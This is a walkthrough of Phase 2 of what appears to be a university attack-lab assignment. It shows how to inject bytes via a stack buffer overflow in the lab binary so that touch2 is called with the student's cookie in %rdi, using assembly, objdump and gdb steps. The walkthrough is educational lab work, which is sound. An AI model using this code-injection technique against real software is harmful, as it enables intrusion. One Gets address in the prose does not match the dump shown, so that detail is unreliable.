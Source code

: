 # PHASE 2

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the ```rtarget_dump.s``` fil and search for touch2, it looks something like this:
```assembly
0000000000401945 <touch2>:
  401945:       48 83 ec 08             sub    $0x8,%rsp
  401949:       89 fa                   mov    %edi,%edx
  40194b:       c7 05 c7 3b 20 00 02    movl   $0x2,0x203bc7(%rip)        # 60551c <vlevel>
  401952:       00 00 00 
  401955:       39 3d c9 3b 20 00       cmp    %edi,0x203bc9(%rip)        # 605524 <cookie>
  40195b:       75 20                   jne    40197d <touch2+0x38>
  40195d:       be d0 34 40 00          mov    $0x4034d0,%esi
  401962:       bf 01 00 00 00          mov    $0x1,%edi
  401967:       b8 00 00 00 00          mov    $0x0,%eax
  40196c:       e8 8f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401971:       bf 02 00 00 00          mov    $0x2,%edi
  401976:       e8 77 05 00 00          callq  401ef2 <validate>
  40197b:       eb 1e                   jmp    40199b <touch2+0x56>
  40197d:       be f8 34 40 00          mov    $0x4034f8,%esi
  401982:       bf 01 00 00 00          mov    $0x1,%edi
  401987:       b8 00 00 00 00          mov    $0x0,%eax
  40198c:       e8 6f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401991:       bf 02 00 00 00          mov    $0x2,%edi
  401996:       e8 33 06 00 00          callq  401fce <fail>
  40199b:       bf 00 00 00 00          mov    $0x0,%edi
  4019a0:       e8 ab f4 ff ff          callq  400e50 <exit@plt>
  ```
If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi."

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called ```phase2.s``` and write the below code, replacing the cookie with yours from the previous phase.
```assembly
  movq $0x3451d86d,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```
Now open the file phase2.d and you will get something like below

```ssh
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 6d d8 51 34 	mov    $0x3451d86d,%rdi
   7:	c3                   	retq   
```
The byte representation of the assembly code is ```48 c7 c7 6d d8 51 34 c3```.

Now we need to find the address of rsp register:

Run ctarget through gdb
```gdb ctarget```

set a breakpoint at getbuf
```b getbuf```

run ctarget
```r```

Dissasemble it
```disas```

You will get something like below:
```assembly
=> 0x0000000000401903 <+0>:	sub    $0x18,%rsp
   0x0000000000401907 <+4>:	mov    %rsp,%rdi
   0x000000000040190a <+7>:	callq  0x401b8d <Gets>
   0x000000000040190f <+12>:	mov    $0x1,%eax
   0x0000000000401914 <+17>:	add    $0x18,%rsp
   0x0000000000401918 <+21>:	retq   
End of assembler dump.
```
Now we need to run the code until the instruction just below ```callq 0x401ab6 <Gets>``` so you will run the following command to get to the addres of that instruction:

```until *0x40190f```

Then you will gwt the promt ```Type string:``` type a string longer than the buffer(24 characters in this case). 
After that do:
```assembly
x/s $rsp
```


